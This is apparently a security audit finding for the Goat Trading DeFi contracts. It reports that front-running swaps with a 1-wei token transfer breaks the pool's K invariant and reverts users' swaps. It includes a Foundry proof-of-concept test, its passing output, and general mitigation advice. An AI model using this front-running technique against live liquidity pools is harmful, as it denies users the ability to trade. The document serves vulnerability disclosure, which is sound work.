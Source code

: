 Agreeable Aquamarine Dog

high

# Potential Denial of Service Attack on user swapping

## Summary
At a negligible cost of 1 wei, a malicious user can effectively prevent all users from swapping in pools. 

## Vulnerability Detail
Users are susceptible to a potential Denial of Service (DOS) attack when attempting to execute swaps within the Goat liquidity pool. Malicious actors can execute front-running attacks with minimal amounts (1 wei) of `weth` or `_token`, resulting in a disruption of the swapping process. This could effectively deny users the ability to swap in the Goat liquidity pool.

## Impact
A DOS attack targeting one or more liquidity pools can be executed at an extremely low cost.


## Code Snippet
[https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L242-L331](https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L242-L331)

## Proof of concept

Swapping involves calculating the values sent using the ERC20::balanceOf method. By front-running every swap with 1 wei worth of `weth` or `_token`, a malicious user can disrupt the swapping process, thereby breaking the K invariant and causing the swap to revert.

The following test can be added to `GoatV1Pair.t.sol`.

A test case simulating a front-run swap attack. This test verifies that a swap is reverted when front-run with 1 wei, confirming the potential DOS vulnerability.

```solidity
function test_H2_FrontRunSwapToDOSUser() public {
        address Alice = makeAddr("Alice");
        _fundMe(goat, Alice, 100 ether);
        _fundMe(weth, Alice, 100 ether);


        address Bob = makeAddr("Bob");
        _fundMe(goat, Bob, 100 ether);
        _fundMe(weth, Bob, 100 ether);


        // note: Pair creation
        GoatTypes.InitParams memory initParams;
        initParams.virtualEth = 10e18;
        initParams.initialEth = 10e18;
        initParams.initialTokenMatch = 1000e18;
        initParams.bootstrapEth = 10e18;

        //address pairAddress = factory.createPair(address(goat), initParams);
        //pair = GoatV1Pair(pairAddress);

        // note: console.log intial state
        //console.log("vestingUntil before first LPs mint : ", pair.vestingUntil());
        //console.log("",);

        //note: Set Pair into AMM on the first deposit
        (, uint256 tokenAmtForAmm) = _mintInitialLiquidity(initParams, users.lp);
        // since reserve eth will be 10e18 and reserveToken will be 250e18
        // sqrt of their product = 50e18
        uint256 expectedLp = 50e18 - MINIMUM_LIQUIDITY;
        uint256 initialLpBalance = pair.balanceOf(users.lp);
        assertEq(initialLpBalance, expectedLp);
        (uint256 reserveEth, uint256 reserveToken) = pair.getReserves();

        assertEq(reserveEth, initParams.bootstrapEth);
        assertEq(reserveToken, tokenAmtForAmm);

        uint256 vestingUntil = pair.vestingUntil();
        assertEq(vestingUntil, block.timestamp + _VESTING_PERIOD);

        //note: get out of the vesting periode
        vm.warp(block.timestamp + 8 days); 

        //note: normal swap execute well
        uint112 _reserveEth;
        uint112 _reserveToken;

        (_reserveEth, _reserveToken) = pair.getStateInfoAmm();

        uint256 wethAmountOut = getWethAmountOutAmm(0.01 ether, _reserveEth, _reserveToken);
        vm.startPrank(Bob);
        goat.transfer(address(pair), 0.01 ether);
        pair.swap(0, wethAmountOut, Bob);
        vm.stopPrank();

        //note: frontRun Bob to make it swapRevert
        vm.prank(Alice);
        goat.transfer(address(pair), 10);

        //note: Bod try to swap but got reverted
        wethAmountOut = getWethAmountOutAmm(0.01 ether, _reserveEth, _reserveToken);
        vm.startPrank(Bob);
        goat.transfer(address(pair), 0.01 ether);
        vm.expectRevert();
        pair.swap(0, wethAmountOut, Bob);
        vm.stopPrank();
    }

    function getWethAmountOutAmm(uint256 amountTokenIn, uint256 reserveEth, uint256 reserveToken)
        internal
        pure
        returns (uint256 amountWethOut)
    {
        if (amountTokenIn == 0) revert GoatErrors.InsufficientInputAmount();
        if (reserveEth == 0 || reserveToken == 0) revert GoatErrors.InsufficientLiquidity();

        amountTokenIn = amountTokenIn * 10000;
        uint256 numerator;
        uint256 denominator;
        uint256 actualAmountWethOut;
        // amm logic
        numerator = amountTokenIn * reserveEth;
        denominator = reserveToken * 10000 + amountTokenIn;
        actualAmountWethOut = numerator / denominator;
        // 0.99% fee on WETH
        amountWethOut = (actualAmountWethOut * 9901) / 10000;
    }
```

Result from the test:

```bash
Ran 1 test for test/foundry/exchange/GoatV1Pair.t.sol:GoatExchangeTest
[PASS] test_H2_FrontRunSwapToDOSUser() (gas: 3877669)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.05ms (631.55µs CPU time)
```

## Tool used

Manual analysis

Foundry tests

## Recommendation

Mitigation of this vulnerability can be achieved through:

*   Enhancing swap execution mechanisms to mitigate front-running attacks.
*   Implementing additional safeguards to prevent disruption of the swapping process, such as transaction ordering mechanisms.
*   Conducting thorough testing and code review to identify and address potential vulnerabilities.
*   Collaborating with security experts to implement best practices for secure swapping functionality.